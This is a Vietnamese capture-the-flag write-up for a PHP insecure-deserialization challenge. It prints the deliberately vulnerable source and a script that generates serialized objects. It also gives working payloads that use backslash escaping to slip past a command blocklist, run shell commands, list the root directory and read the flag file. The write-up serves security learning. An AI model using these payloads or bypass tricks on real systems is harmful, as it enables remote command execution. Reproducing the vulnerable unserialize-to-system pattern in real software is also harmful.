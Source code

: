 # ⛳ Faster

- Description: Bạn có thể nhanh hơn throw Exception() không? http://45.122.249.68:10019
- Code:

```PHP
<?php
class exploit_me
{
    public $cmd;
    public function __destruct(){
        system($this->cmd);
    }
}
$payload= $_GET['payload'];
if ($payload[0]==='a' || $payload[0]==='C')
{
    die('awwwww! this\'s the wrong way!');
}
else if (preg_match('/cat|ls|nl|head|less|more|tail|mv|base|grep|dir|\*|strings|sort|txt|find|print|tac|awk/is',$payload))
    die('awwwww! this\'s the wrong way!');
unserialize($payload);
throw new Exception("oh nooooooo!!!");
?>
```
## Write-up:

Đây là một bài **Insecure Deserialize** cơ bản với bộ lọc cho trước.
Filter(payload): `cat` | `ls` | `nl` | `head` | `less` | `more` | `tail` | `mv` | `base` | `grep` | `dir` | `*` | `strings` | `sort` | `txt` | `find` | `print` | `tac` | `awk`  
Ta exploit với việc **serialize** object trên, copy lại toàn bộ hàm, do class **exploit_me** không có khởi tạo giá trị cho **$cmd** nên ta thêm vào hàm **__construct** và khởi tạo bằng lệnh ta mong muốn. Ở đây ta thử lệnh `id` để không nằm trong bộ lọc.
```
<?php
class exploit_me
{
    public $cmd;
    public function __construct($command){
        $this->cmd= $command;
    }
    public function __destruct(){
        system($this->cmd);
    }
}

$vulner = new exploit_me("id");
$payload= serialize($vulner);
echo($payload."\n");
?>
```
Test thử kết quả và lấy giá trị đối tượng đã được serialize 

![image](https://user-images.githubusercontent.com/48288606/147397751-c7900eda-2b49-48a2-ae05-484165643e41.png)

Ta đưa vào biến **$payload**: `?payload=O:10:"exploit_me":1:{s:3:"cmd";s:2:"id";}`.

![image](https://user-images.githubusercontent.com/48288606/147397795-ccfee8ab-b916-4e99-ae5a-1c951b7681ce.png)

Với filter đơn giản vậy, ta sử dụng regex để bypass. Thay đổi đoạn code khởi tạo đối tượng trên thành `$vulner = new exploit_me("l\s");`. <br>
Ta có **$payload**: `O:10:"exploit_me":1:{s:3:"cmd";s:3:"l\s";}`

![image](https://user-images.githubusercontent.com/48288606/147397831-2499f171-a978-418f-9f0c-62e18f3e730e.png)

Vậy là ta đã execute command thành công qua việc bypass filter bằng regex. Ở đây chúng ta có 2 file là **index.php** và **source.php**. Đọc 2 file này ra không thấy có gì đặc biệt, chung một nội dung và là file source code. Ta thử liệt kê các file ở thư mục gốc. Payload: `?payload=O:10:"exploit_me":1:{s:3:"cmd";s:9:"l\s%20/%20-a%20";}`

![image](https://user-images.githubusercontent.com/48288606/147398460-edca852d-b577-4827-9a14-4aa7190809b5.png)

Ở đây có file **a8749209e3d652e_flag**. Thử đọc file này. Payload: `?payload=O:10:"exploit_me":1:{s:3:"cmd";s:27:"c\at  /a8749209e3d652e_flag";}`

![image](https://user-images.githubusercontent.com/48288606/147398483-2bb6d8f1-bc74-4063-8318-5c77620fcca9.png)

**NOTE**: Ở đây nếu chuẩn thì mình nghĩ nên dùng lệnh `find` kết hợp với regex để tìm file có dạng **"\*flag\*"**, vì ở đây đề cho cấm **wildcar** `*` nên phải suy nghĩ cách dùng regex hợp lý. Còn cách giải của mình thì mò file flag =)), với lại đường dẫn thư mục root `/` là đường dẫn nhạy cảm nên thường có flag ở đó.

Flag: **Wanna.One{Fast_detruct_is_tooooooooo_easy_for_you_!!!}**


